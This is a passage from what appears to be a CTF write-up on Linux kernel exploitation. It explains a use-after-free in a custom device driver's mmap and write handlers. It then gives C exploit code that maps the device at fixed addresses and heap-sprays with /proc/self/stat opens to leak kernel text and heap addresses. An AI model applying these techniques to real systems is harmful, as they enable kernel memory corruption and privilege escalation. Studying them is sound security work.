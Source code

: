 The second `mmap` calls `my_mmap`, this time it will clean the previous vm_are_struct object by writing the new object to `backing_vma`.

So after this, we call `my_write` with `write(devfd1, buf, sizeof(buf));`, 4 pages of file1->private_data will be released BUT `backing_vma` is now contains vm_are_struct object of file2, we still can access 0x1337000->0x133a000 even 3 pages are freed -> Use-after-free.

## Exploit

### Leak text and heap address
So after trigger Use-after-free, I try to heap spray by open `/proc/self/stat` many times:

```c
    pin_cpu(0);
    save_state();

    int devfd1 = open(devfile, O_RDWR);
    int devfd2 = open(devfile, O_RDWR);
    // int devfd3 = open(devfile, O_RDWR);


    int ran = open("/dev/urandom", O_RDONLY);

    int fds[0x3000 / 0x20] = { 0 };
    uint i = 0;

    char buf[0x321];
    read(ran, buf, sizeof(buf));
    buf[0] = 0;

    m1 = mmap((void*)0x1337000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd1, 0);
    if (m1 == MAP_FAILED) {
        panic("mmap(m1)");
    }

    m1[0] = 'A';
    m1[0x1000] = 'B';
    m1[0x2000] = 'C';

    m2 = mmap((void*)0x1347000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd2, 0);
    if (m2 == MAP_FAILED) {
        panic("mmap(m2)");
    }

    m2[0] = 'A';
    m2[0x1000] = 'B';
    m2[0x2000] = 'C';

    usleep(1000);
    pin_cpu(0);

    for (uint i = 0; i < 9;++i)
        open("/proc/self/stat", O_RDONLY);

    write(devfd1, buf, sizeof(buf));

    for (i = 0; i < 0x3000 / 0x20; ++i) {
        fds[i] = open("/proc/self/stat", O_RDONLY);
        if (fds[i] < 0)
            panic("spray open");
    }

```